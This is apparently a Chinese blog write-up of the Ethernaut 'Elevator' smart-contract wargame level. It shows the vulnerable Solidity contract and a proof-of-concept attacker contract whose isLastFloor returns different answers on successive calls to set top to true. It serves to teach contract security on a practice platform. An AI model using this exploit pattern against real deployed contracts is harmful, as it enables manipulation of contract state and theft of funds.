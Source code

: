 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-9'
date: 2022-12-11 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十一关Elevator  思路与POC

#### 目标: 将top变量设置为true

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
   //这里是想让你实现isLastFloor(uint)函数,并能够在相同的输入的情况下返回两种不同的状态
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

##### poc思路:point_right:：虽然这题看起来有点不知所以然,但是它实际想说明的是如果在没有view或者pure关键字修饰的情况下,你可以更改isLastFloor(_floor)函数返回的状态. 令其在相同的输入情况下返回true或者false

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract ElevatorTest is Building {
  
  Elevator public ele = Elevator(0x805f317592037DF3f64ceb645f65dFcdA24298A1);
  bool public state = false ; //初始状态false
  //重写接口函数
  function isLastFloor(uint)  external  returns (bool){
    //第一次调用返回false 
    if(! state){
       state = true;
        return false;
     //第二次state的值更改所以返回true
    }else {
        return true;
      }
  }
  function BuildTest(uint floorT) public {
        ele.goTo(floorT);
  }
}
```

